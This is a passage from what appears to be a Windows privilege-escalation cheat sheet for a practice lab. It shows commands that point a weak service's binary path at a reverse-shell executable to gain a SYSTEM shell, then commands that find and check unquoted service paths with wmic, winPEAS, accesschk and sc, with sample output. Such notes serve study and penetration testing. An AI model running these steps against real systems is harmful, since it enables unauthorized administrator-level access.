 Modify the service configuration and set the `BINARY_PATH_NAME (binpath)` to a reverse shell payload.
```powershell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Start a listener on the attacker machine and then start the service to spawn a SYSTEM shell.
```powershell
net start daclsvc
```

### Unquoted Service Path
File paths that contain spaces should be enclosed in double quotes.

For each space in the file path, Windows will attempt to look for and execute programs with a name that matches the word before a space.
```powershell
C:\Program Files\Program\Some Folder\Service.exe

C:\Program.exe
C:\Program Files\Program\Some.exe
C:\Program Files\Program\Some Folder\Service.exe
```

Search the system for services with an unquoted service path using the following command or `winPEAS`.
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
winPEASany.exe quiet servicesinfo
```

Check if the user can start/stop the service.
```powershell
accesschk.exe /accepteula -ucqv user unquotedsvc

R unquotedsvc
        SERVICE_START
        SERVICE_STOP
```

Query the service configuration and make sure it runs with SYSTEM privileges.
```powershell
sc qc unquotedsvc

BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
SERVICE_START_NAME : LocalSystem
```

Check for write permissions on each directory in the existing binary path.
```powershell

accesschk.exe /accepteula -uwdq "C:"
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

 RW BUILTIN\Users
```
